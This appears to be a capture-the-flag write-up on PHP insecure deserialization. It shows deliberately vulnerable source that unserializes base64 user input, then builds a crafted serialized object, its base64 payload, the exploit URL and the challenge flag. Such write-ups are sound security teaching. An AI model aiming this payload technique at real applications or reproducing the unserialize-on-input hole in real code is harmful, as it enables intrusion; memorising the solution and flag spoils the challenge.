

# Serialization Saga

> This Capture The Flag (CTF) challenge is designed to assess your ability to identify and exploit fundamental insecure deserialization vulnerabilities. Can you successfully execute the necessary functions and retrieve the flags? Lesssgoo!


## Solution

- This challenge is vulnerable to insecure deserialization.
- **Serialization** is the process of converting complex data structures, such as objects and their fields, into a "flatter" format that can be sent and received as a sequential stream of bytes, i.e. **Objects ⇒ Bytes**
- **Deserialization** is the process of restoring this byte stream to a fully functional replica of the original object, i.e. **Bytes ⇒ Objects.**

```php
<?php

error_reporting(0);

class CloudSEK  {

    private $func_no;
    private $func_name;

    function __construct($no , $name)  {
        if ($no == NULL && $name == NULL)   {
            $this->func_no = $no;
            $this->func_name = $name;
        }
    }

    function __wakeup()  {
        $func_map = array(
            1 => "XVigil",
            2 => "BeVigil",
            3 => "GetMeDemFlagz",
        );
        
        $func_no = $this->func_no;
        $func_name = str_rot13($this->func_name);

        if ($func_map[$func_no] === $func_name)  {
            $this->$func_name();
        }
        else    {
            echo "<h3>Invalid Object Data</h3>";
        }
    }

    function XVigil()   {
        echo "<h3>XVigil is a cybersecurity platform designed to help organizations monitor and mitigate potential security threats and vulnerabilities across the digital landscape.</h3>";
    }

    function BeVigil()  {
        echo "<h3>World's first Security Search Engine mobiles that makes sure the applications installed in your phone are safe.</h3>";
    }

    function GetMeDemFlagz()    {
        $flag_file = "/tmp/flag.txt";
        if (file_exists($flag_file))    {
            $file_contents = file_get_contents($flag_file);
            echo $file_contents;
        }
        else    {
            $err_msg = "<h3>File Not Found!</h3>";
            $file_contents = $err_msg;
            echo $err_msg;
        }
    }
}

// $cloudsek = new CloudSEK(1 , "XVigil");
$sess = $_GET["sess"];
if (!isset($sess))  {
    exit();
}
$data = base64_decode($sess);
$obj = unserialize($data);

?>
```

- We are provided with the above source code on the webpage.
- Going through the code we can deduce that it takes a `GET` parameter named `sess` which is base64 encoded string. This base64 string gets decode and gets deserialized.
- In PHP, the `unserialize()` method invokes the magic method `__wakeup()` for deserialization.
- [More on magic methods](https://portswigger.net/web-security/deserialization/exploiting#magic-methods)
- In the `__wakeup()` magic method, we see that an array `$func_map` has been defined with 3 items.
- `$func_no`  stores the number which will be used to access the array .
- `$func_name` stores the function name but after performing a simple ROT13 shift.
- The below block of code performs a **STRICT** comparison(i.e. **BOTH** value and type should be same) between the func_name from the array(accessed using `$func_no`) and the ROT13 shifted `$func_name`.
    
    ```php
    if ($func_map[$func_no] === $func_name)  {
    			$this->$func_name();
    }
    ```
    
- We have 3 functions defined:
    - `XVigil()` : outputs text
    - `BeVigil()` : outputs text
    - `GetMeDemFlagz()` : outputs the content of `flag.txt` in the `/tmp` directory.
- We should craft a serialized payload keeping these things in mind:
    - `func_no` should get value `3` because the mapping in the `func_map` array to `GetMeDemFlagz` is at the 3rd index
    - ROT13 of `GetMeDemFlagz` : `TrgZrQrzSyntm`
    - Base64 encoded and passed as a GET parameter `sess` in the url.
        - `{URL}/?sess=<base64 encoded string>`
- With the help of [this page](https://portswigger.net/web-security/deserialization/exploiting#how-to-identify-insecure-deserialization), we can craft a payload.

<br>

#### Final Payload:

```php
O:8:"CloudSEK":2:{s:7:"func_no";i:3;s:9:"func_name";s:13:"TrgZrQrzSyntm";}
```

- `O:8:"CloudSEK"` : An object with the 8-character class name `"CloudSEK"`
- `2` - the object has 2 attributes
- `s:7:"func_no"` : The key of the first attribute is the 7-character string `"func_no"`
- `i:3` : Value of first attribute is the 3rd index in func_map in the `__wakeup()` function
- `s:9:"func_name"` : The key of the second attribute is the 9-character string `"func_name"`
- `s:13:"TrgZrQrzSyntm"` : Value of second attribute is a 13 character string `TrgZrQrzSyntm` (from rot13 of `GetMeDemFlagz`)

- Base64 encoding the above payload:
    `Tzo4OiJDbG91ZFNFSyI6Mjp7czo3OiJmdW5jX25vIjtpOjM7czo5OiJmdW5jX25hbWUiO3M6MTM6IlRyZ1pyUXJ6U3ludG0iO30=`
    
- Passing above base64 string as a value to `sess` parameter and appending to the URL, we get the flag

```html
/?sess=Tzo4OiJDbG91ZFNFSyI6Mjp7czo3OiJmdW5jX25vIjtpOjM7czo5OiJmdW5jX25hbWUiO3M6MTM6IlRyZ1pyUXJ6U3ludG0iO30=
```
<br>



### FLAG
```
CSEK{PhP_0Bj3CT_D3$3R1L1Z@T10N}
``` 